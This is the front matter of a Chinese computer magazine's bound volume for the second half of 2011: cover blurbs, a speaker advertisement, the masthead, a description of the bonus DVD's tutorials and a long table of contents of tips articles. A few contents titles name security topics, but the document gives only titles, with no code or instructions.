# 电脑爱好者2011合订本（下）

## 超值赠送
2张DVD
全新视频教程宝典
电子杂志 & 有声读物合集

ISSN 1005-0043
9 771005 004003
邮发代号：82-528

+ 硬件网络景教学
+ 应用专题 解决方案
工作学习 娱乐生活
购物导览 评测推荐
无所不有

IT科普领域的
四库全书

学用购娱乐
一站式服务

深入浅出图文并茂
轻松愉快

# EDIFIER 漫步者


> 音乐，
让每个清晨都焕然一新




M0 MKII同步上市
支持iphone/ipod播放

## M0 pro 新款多功能闹铃音响


复古造型床头音响，兼具音乐闹铃功能。黑、白、乳白三种颜色可选，造型优雅可爱。


反射式360度音场扬声器系统，钕铁硼磁体单元，以漫步者专业品质，带来纯美而富有活力的好声音。



支持U盘/SD卡直读，内置FM收音机，可将歌曲或电台设为您的起床铃声。


夜灯指示、贪睡功能……细节之处，尽显体贴入微的人性化设计。


客服电话：800-810-5526 400-810-5526 欢迎访问：www.edifier.com 漫步者官方网络旗舰店：http://edifier.tmall.com 股票简称：漫步者 股票代码：002351

Edifier®，漫步者®，均为北京爱德发科技有限公司持有注册商标。漫步者保留更改产品设计与规格的权利。图片与实物可能有细微区别，产品的规格、外观请以实物为准。

# 电脑爱好者

合订本·2011下半年

电脑爱好者杂志社

# 《电脑爱好者合订本》2011年(下)

- 主管单位：中国科学院
- 主办单位：北京《电脑爱好者》杂志社，中国计算机世界出版服务公司
- 顾问：郭传杰
- 社长：葛程远
- 执行社长/总编：杨富强
- 副总编辑：齐书阳 西浩铭
- 出版部：聂静（主任）
- 办公地址：北京市海淀区翠微中里14号楼4层
- 通信地址：北京123信箱（《电脑爱好者》杂志社）
- 邮编：100036
- 网址：http://www.cfan.com.cn
- 总机：010-68130909
- 发行总代理：北京爱好者文化传媒有限公司
- 读者服务部：联系方式（周一至周五，9:00~11:30,13:00~17:30），手机短信：13801293315 电话：010-68258784
- 零售：全国各地邮局（所）
- 国内发行：北京报刊发行局
- 邮发代号：82-528
- 刊号：ISSN1005-0043/CN11-3248/TP
- 印刷：北京外文印刷厂
- 广告许可证：京海工商广字第0055号
- 法律顾问：北京周涛律师事务所（网站www.zt148.cn），电话：010-63141013, 13366185341

# 2011年《电脑爱好者》合订本（下半年）

## 配套光盘DVD目录

### 电脑视频教程宝典

### 网络安全实用教程

网络安全问题随着网络建设飞速发展已成为举足轻重的全球性问题。保障网络安全也就是保障业务的顺畅。本教程讲述了加密及认证技术，网络攻击与防御技术，Windows及Linux操作系统的安全等基础理论，同时又侧重讲解了防火墙、入侵检测、计算机病毒、数据备份、安全管理等实际应用操作，最后讲述了网络安全方案设计的内容。



### 网络技术基础教程

本教程系统地介绍了计算机网络的基础知识与基本技术。主要内容包括网络体系结构与TCP/IP协议、局域网、操作系统、对等网、客户机服务器网络、用户、文件、资源共享等基本技术。同时也讲述了Internet技术，安全与病毒及网络管理与维护等方面知识。该教程是网络工程师的入门课程。



### 网络工程与综合布线

随着信息化的突飞猛进，网络工程及综合布线的需求与日俱增。本教程以实际工作、业务流程为出发点，不但讲述了工程建设流程、招投标流程、合同签订、工程组织及网络设计等业务流程，同时亦讲解了施工中的VLAN配置、综合布线、系统集成、广域网接入、网络管理与维护的技术细节。



### 装饰装修设计师超级宝典

装饰设计宝典是专门针对装饰设计人员的一部网络教程。它包括家装、酒店、办公、外建、园林等具体案例。从设计到施工，从CAD、3ds max、vray到Photoshop都进行了详细的讲解，案例讲解遵循难度适中、循序渐进的原则。对于正努力于装饰这一方向的学员、设计人员，都有很高的借鉴和学习价值。


### 网络管理实用教程

本教程全面详细地介绍了Linux操作系统下的网络管理操作。在介绍了Rad Hot Linux简介之后，分别阐述了系统安装、界面操作、命令行操作及常用的磁盘、文件、账户、权限、进程及软件包管理等基础操作。其次还相继讲解了网络配置、DHCP服务器、NFS服务器、FTP、代理服务器、MySQL数据库服务器的配置及管理。最后简述了Linux的安全配置。

### Auto CAD 2012 实例从入门到精通

本教程详细讲解了CAD2012中文版的新功能、新技巧。从二维到三维，从基础命令到实战演练，都在本套教程中完美结合。帮助您最大程度地提升对CAD软件的驾驭能力。

### 电子杂志+有声读物

#### 电子杂志

2011全年杂志电子版完整收录。


#### 有声读物

##### 《盗墓笔记》系列有声读物

五十年前，一群长沙土夫子(盗墓贼)挖到一部战国帛书，残篇中记载了一座奇特的战国古墓的位置，但那群土夫子在地下碰上了诡异事件，几乎全部身亡。
五十年后，其中一个土夫子的孙子在先人笔记中发现了这个秘密，他和一批经验丰富的盗墓高手前去寻宝。但谁也没有想到，这个古墓中竟然有着许多诡异的事物……
这神秘的墓主人到底是谁，他们到底能不能找到真正的棺椁？为什么墓中还有那么多谜团无法破解？它们背后究竟隐藏着哪些千古之谜？够胆量就听《盗墓笔记》！

##### 《一分钟探案》系列有声读物

《一分钟探案》汇集了一百余则短小精悍的探案故事，这些案件的侦破不仅需要你有锐利的双眼，能够明察秋毫，从细微处去发现蛛丝马迹，还需要你有极强的分析能力和推理能力，能够透过这些不起眼的蛛丝马迹看到案件的真相，把可恶的罪犯擒拿归案。
扑朔迷离的案情，扣人心弦的搜索，也许你就是下一个福尔摩斯，挑战你的智商，考验你的判断，找出破案的关键，劈开层层的迷雾，不用担心，答案就在下一集，相信自己，你就是福尔摩斯，马上出发，开始你的探案之旅吧。


# CONTENTS 目录
电脑爱好者2011（下半年）合订本

## Windows 8 亮点揭秘

可能很多朋友连Windows 7都还没用熟悉，下一代操作系统Windows 8已经进入深度测试的阶段，虽然大家都在骂着微软的垄断，但自甘情愿做微软“小白”的朋友还是相当之多，每有一个新的泄漏版本放出，都会引起围观和下载狂潮，今天就让我们共同走入Windows 8的世界吧。

## 创始人回归 能否成为企业救世主

戴尔、杨致远、乔布斯的不同命运

## 超越iPad Android 3.0 设备行情！

## 开学啦！你的数码“三大件”准备好了吗？

## 四款主流电子书体验手记

## 揭秘 你所不了解的网络新职业

## 思维导图 创造思维奇迹

## 狙击“苹果”“关控” iPhone 4S 关头大点兵

# 特别话题

- 19 Windows 8亮点揭秘
- 20 卡片机特殊本领大比拼
- 23 创始人回归能否成为企业救世主
戴尔、杨致远、乔布斯的不同命运
- 25 超越iPad Android 3.0我看行!
- 27 绿色生活 家居物品DIY
- 31 自己打造 视觉盛宴——显示设备两大新玩法搭建向导
- 33 震撼！不单在影院里发生 DTS至高无上的音乐享受
- 35 四款主流电子书体验手记
- 38 思维导图 创造思维奇迹
- 40 开学啦！你的数码“三大件”准备好了吗?
- 42 足不出户 淘遍全世界
- 45 硬件加速帮忙 高清转码无需漫长等待
——视频编码硬件加速全攻略
- 47 揭秘你所不了解的网络新职业
- 49 手机也是照相机 照相手机如何选
- 51 学做专业EXCEL图表
- 55 Diablo三度来袭
——什么电脑才能跟上“暗黑破坏神”的步伐?
- 58 看乔布斯如何用幻灯片征服世界
- 60 绝对不鸡肋！——小容量固态硬盘优化应用十例
- 62 红楼闲话电脑病
- 66 狙击“苹果” iPhone 4S“杀手”大点兵
- 69 亲 不能再这么读了
- 72 画质便携两相宜 小瞰市售微单
- 74 别扔 三招唤醒老电脑
- 77 房间更整洁 工作更高效——为自己挑选一台一体式电脑

# 生活百事通

- 79 搜狗力助迅雷突破封锁
- 79 用打印机自带功能轻松打印小册子
- 79 也谈本本的IP更换
- 79 试卷分栏页码简单制作
- 80 照片分享压缩 服务各具特色
- 80 暴风截取swf视频转换被拒
- 80 不用软件 通过网络硬盘漫游表情
- 80 Excel轻松排名次我也行
- 81 变下载专用链接为我需格式
- 81 常用打包密码存好 一点即用
- 81 调高安全级别 轻松复制网页
- 81 化繁为简 咱有高招
- 81 续谈《修复Word安全模式打开问题》
- 81 截取视频片段请把声音也带上
- 81 迁移个人数据 点点鼠标就行
- 81 小小插件 大大用处
- 82 简单快捷为Win7资源管理器添加常用按钮
- 82 复杂化学结构式 专用软件更方便
- 82 批量创建全班文件夹更便捷
- 82 杀鸡焉用牛刀 菜鸟也能备份聊天记录
- 82 关掉QQ电脑管家病毒库的自动更新
- 83 利用主流浏览器捕捉非主流视频
- 83 双击打开的压缩文件 你藏到了哪里
- 83 幻灯画面切换可以自由控制
- 83 生成随机密码 字母数字任取
- 83 多人写文章 一键合并另有妙招
- 83 解除限制 视频下载有方
- 83 上传音乐要会员 随身盘帮你忙
- 84 外出打印招贴更有勤快帮手
- 84 图片无损放大 我要免费的
- 84 搜索大文件可以更方便
- 84 插入文档除了合并还能破解
- 84 用合并MP3文件功能更快捷
- 84 Chrome的同步和书签转换
- 84 我有购物兔 淘宝返现乐不停
- 84 破解保护 只需换个格式
- 84 浏览网站 分屏更简单
- 85 百度文库下载 抱米花下载更简单
- 85 同一Word文档纵横页面并存另有简法
- 85 QQ群成员提取 既要免费也要简单
- 85 不必注册 QQ文件自动接收
- 85 跟垃圾邮件说再见 我用60分钟邮箱
- 85 保护文档安全 可以自动加密
- 86 不用火狐 看视频也可去广告
- 86 普通手机也可拥有强大的防盗功能
- 86 别让他看别人的成绩另有简易法
- 86 分门别类找文件 陈旧无用快清理
- 86 屏蔽视频广告更全更强大
- 87 绕道PDF 打印小册子更轻松
- 87 照片快速重命名
- 87 提取PPT文字更易分享
- 87 密钥因人而异 泄密有据可查
- 87 用QQ影音截取音视频更方便
- 87 还魂妙药 一付足够
- 88 也说Word表格中的数值运算
- 88 何劳他人 办公用品查询Excel就行
- 88 克隆地址 让家中多台电脑都上网
- 88 读取VirtualPC中资源的另类办法
- 88 用打印机自带功能打印小册子最方便
- 89 批量提取docx文档中的图片
- 89 分类汇总与打印 条件函数全搞定
- 89 Word中英文校对之探讨
- 90 PDF文档取所需 更有他方妙法
- 90 用PPT自定义动画实现变形效果
- 90 图片插入文档当然不走弯路
- 90 复制多处内容 一次性合并粘贴
- 91 莫说相似图难找 借你一双慧眼吧
- 91 没装Windows 7 聊天照用多标签
- 91 QQ表情真不少 导入飞信才叫好
- 91 好压智取Office 2007文档中的图片
- 91 不需每天登录 自动领取淘金币
- 92 下载歌曲去多补缺
- 92 新歌批量下不停
- 92 邮箱积分换网盘 简单又划算
- 92 园丁好帮手 准考证打印自动化
- 92 酷狗只听音乐不听广告
- 92 私密打印 避免被人错拿
- 93 银行利率调整 按揭贷款速算
- 93 出游遭遇交通罚款 网上缴纳省时安全
- 93 巧用“墙” 让微博更出彩
- 93 GIF先优化 聊天不出红叉叉
- 94 以最低碳的模式下载资源
- 94 绑定MSN好友 QQ空间更新他也知
- 94 照片中谁是那个她 圈出来告诉你
- 94 杜绝造成迅雷假死的小广告
- 94 出国旅游 梦想变成完美计划
- 95 机票旅店经济订 快乐完美自助游
- 95 网盘分享 手机派上用场
- 95 节省纸张 表格分栏双面打
- 96 巧用“连环锁” 打造“绝密天书”
- 96 复印机坏了 打印机扫描仪临时替
- 96 身处险境 一键连发呼救信息
- 96 网上看视频 广告屏蔽掉
- 97 提成表不必手工录 产品价格自动速配
- 97 美景手机拍 即拍即微博
- 98 召集同城好友 相约绿水青山
- 98 羞涩爱意难出口 漂流小瓶传给他
- 98 冲印数码照片前别忘了长宽比
- 98 网游神器变身办公利器
- 99 个性十字绣 自己动手设计
- 99 教儿手工制作 百度经验搜索
- 99 照片名称与拍摄时间齐步走
- 99 办公用品统计查询省时省心
- 99 忘记解压密码 也能找回下载文件
- 100 别人的成绩你别看
- 100 给客户群发邮件 您真的会么
- 101 课上PPT课下看 山寨手机也玩转
- 101 消息来时音乐声别忽大忽小
- 101 碎片整理不要胡子眉毛一把抓
- 101 工作奔波 IP无缝轻松切换
- 101 带个U盘安装维护系统
- 101 快乐购物 淘宝返现商品看得见
- 101 网上大图批量下
- 102 给我的设计加上版权保护
- 102 移动硬盘配高清电视有门道
- 102 让女友照片充满QQ面板
- 102 拖拖拉拉 压缩包操作超简单
- 102 商品大图抠下 美图无处可逃
- 102 找不到移动盘符怎么办
- 102 快递查询伤不起 友商快递超给力
- 102 每天解决15个英语单词
- 102 是谁盗用了我的照片
- 103 邮箱地址不用贴 批量导入最省事
- 103 李代桃僵巧藏机密文件
- 103 讲座提取音声 广播录制音频
- 103 没有无缘无故的流量费
- 104 检查袭来 PPT不用手忙脚乱
- 104 课件用视频 困惑一一解
- 104 视频下载各有招 分块合并也轻松
- 105 3G流量超标 请管家帮忙
- 105 网上益智体验 链接转至手机
- 105 发出我们的声音 QQ任意铃声自设
- 105 完形填空随机 英语课堂生辉
- 105 随意切割 文件夹也有分身术
- 106 有效输入设关卡 从此不做马大哈
- 106 话单的秘密：我打了谁的电话
- 106 纸质资料变成可编辑的新文档
- 107 月考成绩是升是降 趋势图标直观明了
- 107 图片缩略图请别“忽悠”我
- 107 “QQ交谈”入驻空间显个性
- 107 在笔记本上欣赏台式机里的视频
- 107 网购服装 PS帮你试穿
- 108 绕过问题添加QQ好友
- 108 论文脚注 来去自如
- 108 让网页快照正常显示
- 108 OCR软件不用求 网站帮你解忧愁
- 108 为自己和同事发出会议提醒
- 108 轻松存文字 只用鼠标拖一下
- 108 加密文件既简单又安全
- 108 音乐合成器让声音不再随心喧闹
- 108 商品是否中意当然要看大图
- 109 喜羊羊大战灰太狼之资源统计篇
- 109 文件直传 我有“安全通道”
- 110 构建云服务 只需零成本
- 110 便捷分享 打开网页就能看
- 110 为本本触摸板巧装“智能锁”
- 111 激光打印机拯救落水后的表单
- 111 关于视频下载 “唯影”有话要说
- 111 百度文库下载百分百 不浪费财富值
- 111 四步并一步 下载只要点一下
- 112 轻轻松松给MP3添加封面
- 112 一键采集 资料进笼好轻松
- 112 系统还原后找回丢失的资料
- 112 上传文档太臃肿 Word压缩来帮忙
- 112 1分钟激活非会员的离线下栽空间
- 112 养眼让液晶屏24小时自动调色温
- 113 Web邮箱也能轻松切换
- 113 用CorelDRAW的快捷方法
- 113 设置绿色电脑窗口保护眼睛
- 113 那个异常的回车键
- 113 输文字查股票学英语一举三得
- 113 在PC端收发手机短信 简单快捷
- 113 迅雷做兼职 验明软件正身
- 113 影院在放什么电影提前知
- 114 手机用联通号也要飞信
- 114 让Foxmail提醒您别忘了加上附件
- 114 办公电脑忘关机 请个助手协助你## 目录
《电脑爱好者》·合订本

- 135 怎样从网络视频中提取MP3
- 135 多微博如何同时发布信息
- 136 不用修改hosts文件 如何看到无广告的视频
- 136 QQ群人数已满 巧借微群来扩容
- 136 傻姑学EXCEL：拒绝重复编码
- 136 录制演示 让演讲跟片走
- 137 琐碎打包帮你整理小文档
- 137 召开家庭视频Party QQ2011正式版就能搞定
- 137 手机离线下载 我能实现
- 137 一招加快网易邮箱的访问速度
- 137 禁止边缘最大化简单方法
- 137 小技巧去除迅雷广告
- 138 巧用Word 2010邮件合并功能批量打印荣誉证书
- 138 借助网盘打造“三位一体”的云版QQ
- 138 电子邮箱是否被盗 一查便知
- 138 附件上传受限 360压缩帮你应对
- 138 邮件大小超标 Foxmail替你分割
- 139 紧急情况“空手”看docx文档
- 139 手边的简单图片处理工厂
- 139 批量给压缩包添加公司简介
- 139 回到还原点找文件 其后软件仍不丢失
- 139 加个“透明锁” 让展销演示顺利进行
- 139 谷歌地球运行慢 几招加速

### E达人

- 140 借助无线 打造客厅互联网电视
- 140 藏起桌面图标 打造滑出面板
- 140 拆掉下载门槛 让下载更自由
- 141 网上购书 省钱有道
- 141 云转码 打造免费移动影院
- 141 去除QQ群广告 我有妙招
- 141 单屏多任务 操作更轻松
- 142 优盘无地可容 光盘扩容备份
- 142 用记事本轻松获取系统配置信息
- 142 压缩工作量再大 只花主人一分钟
- 142 MSN的困惑 MSNLite解决有道
- 143 平面广告“动”起来
- 143 Virtualbox解决Ubuntu下使用新版旺旺（一）
- 143 Virtualbox解决Ubuntu下使用新版旺旺（二）
- 144 抛弃星空极速 实现多台电脑同时上网
- 144 Excel工具箱插件 帮你快速制作工资条
- 144 不花钱也群发邮件
- 145 Windows资源管理器 下岗
- 145 妙用虚拟机突破局域网网速限制
- 145 一分为二 网络购物更方便
- 146 书名号该如何加上去
- 146 资源管理器 这样用更高效
- 147 家藏老磁带 轻松数字化
- 147 校园网（教育网）网速不给力怎么办
- 147 更加方便 局域网快速发送共享文件一法
- 148 高效用网 搜索有道
- 148 不用外部工具 打造大型“数码相框”
- 149 勤、快加省心 成就系统备份达人
- 149 种子吃紧 资料下载有窍门
- 150 球赛不能耽误 电脑定时录制
- 150 内网外网 平板访问“无线”通
- 151 一站搞定 套装光盘脱机用
- 151 让网卡同时支持DHCP和固定IP
- 151 找回“丢失”的相片
- 152 远程取文件 咱用优盘就搞定
- 152 崩溃、重启不怕 自有还魂妙药
- 152 EPUB 我悄悄地走近你
- 153 抓住系统的救命稻草
- 153 搜索 让步骤来得更简洁些吧
- 154 网上看片 跳过广告绕道走
- 154 让桌面背景与图标色块变和谐
- 154 管好无线局域网 权限流量任我行
- 155 成批去掉路径 我有好办法
- 155 制定规则 实现邮件管理自动化
- 155 火眼金睛 给无损音乐验明正身
- 156 “远交近攻” 躲开网管的监控（一）
- 156 “远交近攻” 躲开网管的监控（二）
- 156 Excel数据实时保护（一）
- 156 Excel数据实时保护（二）
- 157 亲手打造自动化一键垃圾清理器
- 157 自编简易型“树形目录制造者”
- 157 利用AA3.0软件分离两种声音
- 158 U盘直接跑精简版Win7
- 158 用好迅雷文件邮 匿名分享大文件
- 159 快盘实现局域网文件高速共享
- 159 虚拟机文件共享 我有妙招
- 159 双剑合璧 识别图像并重命名
- 159 妙用转换器 揭开云端神秘面纱
- 159 合并不连续的硬盘分区
- 160 绝对机密！重要数据用完自动销毁
- 160 旧硬盘拆下收藏 存细目随时检索
- 161 合并分区 数据无损有妙招
- 161 免费打造个性化多功能键盘
- 161 中英文混合音频巧分离
- 161 自制脚本获取 云端下载地址
- 162 新片大家看 自架在线影院来分享
- 162 拿什么拯救你 我的隐私文件
- 162 打印网页 只“剪”你需要的
- 162 给你的WinRAR加把锁
- 163 巧用VBA建立学生考试成绩通知单
- 163 去伪存真 横扫广告链接
- 164 给应用程序设定闹钟（一）
- 164 给应用程序设定闹钟（二）
- 164 巧用记事本 让文件“走光”
- 164 看韩剧就用酷盘遥控下载
- 165 不是耳机不好 而是听法不当
- 165 旁门左道 打造屏幕监控器
- 165 放下身份 让系统运行更高效
- 166 面子无小事 打造最抢眼的动态桌面背景
- 166 潜伏 偷听微博不让TA知道
- 166 小周使用QQ电脑管家的幸福生活
- 167 绿化杀软 你也行
- 167 找到云端软件的真正下载地址
- 167 高版本迅雷照样可以列表下载
- 167 找出狗狗上被保护的资源
- 167 一键给迅雷离线空间资源续期
- 168 U盘触发器 让软件自动运行
- 168 Flash特效也能重复应用
- 169 巧用WinRAR快速整理档案
- 169 360杀毒为办公族电脑免疫Office宏病毒
- 170 Cool Edit 轻松搞定音乐事
- 171 大量书名号 一次巧添加
- 171 闪存盘注水 挤干水再用
- 172 不必费力上传 资源快速共享
- 172 先预测 解压工作不跑冤枉路
- 172 邮件加密收发 何需另借工具
- 173 从手机视频到DVD大片——2011谁是最给力的视频转换王
- 173 让上网像风一样飞翔
- 174 视频分享谁最给力 六大视频网站大比拼
- 175 畅游网海，谁主沉浮 10款浏览器终极PK
- 176 图表 让报告的数据一目了然
- 177 放心用手机 Android手机安全软件评测
- 178 花样网盘用谁更方便
- 178 EmEditor 重复文字输入更快速
- 179 一页纸简历 如何才能做得更好
- 180 随想随记的云端“笔记本”——七款笔记软件终极对决
- 181 创意简历 一页纸同样精彩
- 182 移动看书 谁最适合你——5款Android手机阅读软件横评
- 182 小小名片制作奥妙之所在
- 187 文件捆绑攻防战
- 187 压缩上传也能一步操作
- 188 不放弃！老系统完美移至新电脑
- 188 巧用Win7截图 快速截取弹出菜单
- 188 挖掘系统潜能 “手写”数学公式
- 189 轻松搞定Win7图标的那点事
- 189 试试自定义 “大块头”搜索有秘技
- 189 Win7资源管理器也能随意排列图标
- 190 Win7为孩子打造安全的上网环境
- 190 巧建快速通道 让文件操作更快捷
- 190 系统搜索升级 压缩文件内容也能搜
- 190 隐藏文件藏深点 显示选项也关闭
- 191 巧用Win7“问题记录器” 海量图片轻松看
- 191 收放自如 显示指定扩展名
- 191 保障Win7安全 我有“瑞士军刀”
- 192 删除自动播放窗口的多余选项
- 192 追求个性 屏保程序拿来做桌面
- 192 网站安全的大敌——弱口令
- 192 巧改Windows 7启动画面 让女友无处不在
- 193 TPC 来自微软的瘦身系统
- 193 磁盘配额管理 我的空间别乱动
- 193 妙用资源管理器 轻松查QQ好友IP
- 194 开机加速 让自启动程序延迟运行
- 194 系统升级 数据轻松传送
- 194 巧设虚拟硬盘 文件“藏”起来
- 195 安全大扫除 掀出系统中暗藏“间谍”
- 195 设置远程桌面 练就火眼金睛
- 196 空间不浪费 为隐藏分区添加PE维护系统
- 196 为Windows解锁 我只需动动嘴
- 197 万花丛中过 片叶不沾身
- 197 无所畏惧 手杀TDSS病毒
- 197 打造炫目的多操作系统电脑平台
- 198 电脑长“利齿” “生吞”优盘病毒
- 198 多窗口资源管理器 文件管理更便捷
- 198 系统重装不担心 无线设置能备份
- 198 误关联的应用程序设置巧取消
- 199 Windows 7媒体流轻松访问远程媒体
- 199 锦上添花 为Aero特效添加彩虹动画
- 199 解密压缩包 我有非常技巧
- 199 创建使用方案 设置一键切换
- 200 小漏洞大危害——数据库下载漏洞
- 200 网站防注入别忘了cookie注入
- 201 双休假日 我有免费电脑保安
- 201 软件小管家 打造弹出式“桌面”
- 201 XP下修改Windows 7的注册表
- 202 快速创建虚拟机 我有我方法
- 202 动动手 让PE更强大
- 203 深度解析 防范网购木马
- 203 化繁为简 打造文件操作“右键快车”
- 204 媲美SSD硬盘 打造高速内存系统
- 205 未雨绸缪 上网本添加“光盘”修复
- 205 让Windows 7也能搜索PDF文档
- 205 让Windows抓图键“学会”自动存盘

### 系统完全体

- 183 系统程序崩溃 信息轻松查询
- 183 巧用EasyRecovery 搞定数据恢复
- 183 边缘最大化功能 请别自作聪明
- 183 巧改Google Chrome用户数据和缓存路径
- 183 真假难辨 Ubuntu&Win7界面互换
- 184 简单几步 轻松重装系统
- 184 黑客入侵之SQL注入
- 184 再多程序 也能一键关闭
- 184 双进程守护木马 也能轻松Kill
- 185 巧改注册表 显示指定文件的扩展名
- 185 移动复制也玩 加速和断点续传
- 185 让迅雷下载分类与Win7库同步
- 185 神奇工具 让Win7任务栏空间翻倍
- 185 Windows Installer程序包错误巧修复
- 186 Win7唤醒睡眠后 也能自动联网
- 186 窗口内容变化 自动切换到前台
- 186 系统达人随身宝——打造移动版专用WinXP
- 187 让所有查看模式都能筛选排序
- 187 Windows抓图键 巧配上传“精灵”

## 目录
《电脑爱好者》·合订本

- 206 反客为主 控制映像劫持远离病毒
- 206 NTFS文件夹打不开该怎么办
- 206 加密不再繁琐 文档随时加密
- 207 桌面内容巧隐形 俺的屏幕拒“偷窥”
- 207 为Windows 7桌面加把“锁”
- 208 系统内置程序 也能轻松掌控
- 208 误装Win8？自己手动挽救Win7
- 209 电脑懂人意 自动隐藏无关窗口图标
- 209 为关机操作巧设“延时器”
- 209 巧用组策略 搞定微软自动更新
- 209 系统快捷键 速速报上名来
- 209 定制注册表 让移动中心适用所有Win7
- 209 记得几个文字 也能搜出文本文件
- 210 系统安全守护神——TrustedInstaller账户解密
- 210 巧设规矩 让音量学会自动调整
- 211 设置专用工具 “透视”绝密文件
- 211 我的系统特效我做主
- 211 你复制 我粘贴
- 212 我的电脑你别动 给Win7装上写保护
- 212 一键直通 “隐藏”文件夹轻松打开
- 213 巧妙绑定系统还原点
- 213 打造不怕崩溃的系统 将用户数据从Win7中分离出来
- 214 改造WinRE 从隐藏分区安装Win7
- 215 图片文件捆绑木马揭秘
- 216 让崩溃的Windows系统回光返照
- 216 换个思路 Win7重要资料先转移
- 216 “行动”要一致 时间要统一

### 办公一族

- 217 不装PPT软件 幻灯片照样播放
- 217 下载图书无目录 借助软件自己加
- 217 制作资料关键词索引
- 218 通过部门主管 直接找到工作
- 218 保护文档安全 Word文档快速加密
- 218 PPT大师成长之路 玩转工作型PPT（一）——工作型PPT的几个常见问题
- 219 PPT大师成长之路 玩转工作型PPT（二）——用好常用的PPT热键
- 219 流水账汇总 当然要又快又准
- 220 PPT大师成长之路 玩转工作型PPT（三）——工作型PPT设计之一：10条建议
- 220 为我所用 幻灯片文字统统拿来
- 221 天津大一新生入校攻略 备战4年后职场各有高招
- 221 PPT大师成长之路 玩转工作型PPT（四）——工作型PPT设计之二：关键词突出法
- 222 职点迷津（一）
- 222 职点迷津（二）
- 222 职点迷津（三）事业起步了 却赶上限购了
- 222 职点迷津（四）参加培训 还是自学
- 223 职点迷津（五）创业失败后再找工作好难
- 223 职点迷津（六）如何过好大学第一个八分之一
- 223 软件联合 快速制作出门证
- 224 版面美观 还需注意细微处
- 224 如何制作个性的学生名片
- 224 EXCEL中分类汇总数据巧转移
- 225 Android工程师如何炼成
- 225 改造微软拼音2010 让录入速度飞起来
- 225 文字快速变图片 版权保护有高招
- 226 让Word校对得更准确一些
- 226 双重查找巧替换特殊内容
- 226 幻灯片成功演示技巧系列 PPT达人秘籍——弄清演示对象
- 227 设计图标唾手可得
- 227 格式刷 文字之外的高效
- 227 职场私奔你有胆吗
- 228 e族养生经 把玩出来的病玩回去——让电脑帮你找回健康
- 228 巧用Excel 2010 我的批注不一样
- 228 在电脑屏幕的右上角张贴课表
- 229 职场杂谈：房子向左 事业向右
- 229 打造你的黄金履历表
- 230 一张工作表格 多人协作完成
- 230 让生产效益最大化 我有高招
- 230 暗渡陈仓 实现Excel双面“硬”打印
- 231 健康养生从轻松掌握经络穴位开始
- 231 Office文档编码打印全自动
- 231 幻灯片备注快速批量删除
- 232 表格填写 自动复制有高招
- 232 术业有专攻 专业计算我最行
- 232 图片插入文档 不走弯路
- 233 自己动手制作Top Sites效果画报
- 233 职场新手快速升级宝典
- 233 公平竞赛 保密很重要
- 233 今年过节不跳槽
- 234 大学生创业 在哪里跌倒
- 234 唐诗三百首快速转分页演示文稿
- 234 无米之炊 免费玩转文献检索
- 235 工作名片高效设计印刷一法
- 235 快速编排考场 轻松分派监考
- 235 巧用分节符 速制错格表
- 236 表格做助手 评委不难当
- 236 实习生怎样把握机会 为求职增加砝码
- 236 过好大学的第一学期
- 237 e时代 轻轻松松做老师
- 237 视频幻灯两相宜
- 237 创业前需要知道的5个概念
- 238 何需FLASH PPT轻松制作变形动画
- 238 公司喜欢这样的实习生
- 239 空白页删除有妙招
- 239 Word操作考核自动评分系统设计
- 240 编制课程表 妙计不再难
- 241 银行卡信息安全显示有办法
- 241 WinRAR也能打包PowerPoint演示文稿
- 242 在校生3个月打赢考研时间战
- 242 不装字库 文档漂亮依旧
- 242 解读名企2012校园招聘

10 电脑爱好者合订本·2011## 视像梦工厂

-   253 品味另类粽子
-   254 制作专业级的立体照片
-   254 拍出无声胜有声的剪影
-   255 DJ效果自己做 人人都能High起来
-   255 摆脱地心引力 悬浮创意摄影
-   256 平面变立体 3D游戏大升级（上）
-   256 平面变立体 3D游戏大升级（下）
-   257 巧施魔法 扮美老照片
-   257 关于拍摄电视屏幕图像的基本技巧
-   258 告别呆板的毕业合影
-   259 盛夏出游季 随手美化iPhone照
-   259 简单几步 画出动态的马儿
-   260 相机也能这么玩 让照片动起来（上）
-   260 相机也能这么玩 让照片动起来（下）
-   261 拍摄实录 记录灾后孩子们的欢声与笑语
-   261 巧治广角照片的“畸变之痒”
-   262 有问必答 如何拍出人景俱亮的夜景照片
-   262 拍摄夜景与人物同景照片的基本要点
-   262 打造不同年代播放效果的音乐
-   262 S身材 你也可以拥有
-   263 别再悬浮了 快下来吧
-   263 90华诞党旗飘
-   264 侧脸的生活照一样转成正式照
-   264 我的周末 我的生活手机拍摄家庭短片
-   265 如何修复玻璃反光问题的照片
-   265 AE吐字特效的制作
-   265 中秋佳节 你也能奔月
-   266 将偏色问题一网打尽
-   267 翻转世界 酷玩摄影
-   267 拍好秋季迷人的日出日落
-   267 巧妙化解图片“变形之痒”
-   268 中秋之夜 拍出明空皓月
-   268 秋季公园个性摄影
-   269 有图有真相 放大不再伤不起
-   269 减法生活 用不规则拼图精简照片
-   269 轻松搜索所需照片
-   269 还原网购服装的真面目
-   270 秋高气爽拍红叶
-   270 巧妙打造彩色多重曝光效果
-   271 让静止的遥控汽车奔驰起来
-   271 一起来玩光绘画
-   272 撕掉他们的衣服
-   273 拍出美丽帅气证件照
-   273 倾斜照片巧调正 原始尺寸不改变
-   274 诡异的人体面具创意摄影
-   275 碎片汇聚文字特效
-   275 巧用微观肥皂泡 拍出神秘外太空照
-   276 让照片中的落叶轻舞飞扬
-   276 将女友照片变成独特剪影

## 移动新天地

-   277 懒得运动 让手机MM陪你锻炼
-   277 模仿三星Touchwiz 让你手机界面更绚丽
-   277 给你的手机装上开关吧
-   277 隔空取物 局域网拷贝文件很轻松
-   277 电子优惠券 要省钱更要环保
-   278 桌面图标 就要与众不同
-   278 一步到位 Symbian手机不再需要证书签名
-   278 Android手机变身电脑幻灯片控制器
-   278 Android手机为自己安排虚拟来电
-   278 缤纷旅途自驾游 我有“旅动缤”
-   279 大板凳 论坛看帖更方便
-   279 利器在手 Android手机看漫画不愁
-   279 Android手机电子狗 助你出行安全
-   279 游戏难通关 帮手如你愿 手机也有“金山游侠”
-   280 简单还免费 为你的手机存储卡提速
-   280 用魔秀 做自己的个性手机主题
-   280 告别“漏网之鱼” 所有程序都能“一键退出”
-   280 涂鸦+语音 微博还能这样玩
-   280 切换So Easy 多任务操作的“最佳助手”
-   281 界面不美观 短信 拨号 联系人一站式美化方案
-   281 手机号汇款 轻松又安全
-   281 电话视频远胜Facetime Skype手机客户端全攻略
-   282 移花接木 帮助诺基亚手机解放红白键
-   282 无论在何处 数据“云同步”
-   282 迷你卡拉OK 随时随地K歌
-   282 巧妙设置 邮件到达免费通知
-   283 桌面Ndesk 挑战iPhone桌面
